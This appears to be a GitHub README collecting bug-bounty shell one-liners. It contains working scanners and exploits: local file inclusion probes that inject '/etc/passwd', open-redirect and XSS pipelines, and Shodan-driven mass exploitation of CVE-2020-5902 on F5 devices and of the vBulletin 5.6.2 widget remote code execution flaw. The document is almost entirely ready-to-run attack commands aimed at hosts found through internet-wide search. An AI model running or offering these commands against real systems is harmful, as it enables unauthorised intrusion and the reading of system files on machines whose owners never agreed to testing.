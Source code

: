 # Awesome One-liner Bug Bounty [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS
> @cihanmehmet

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
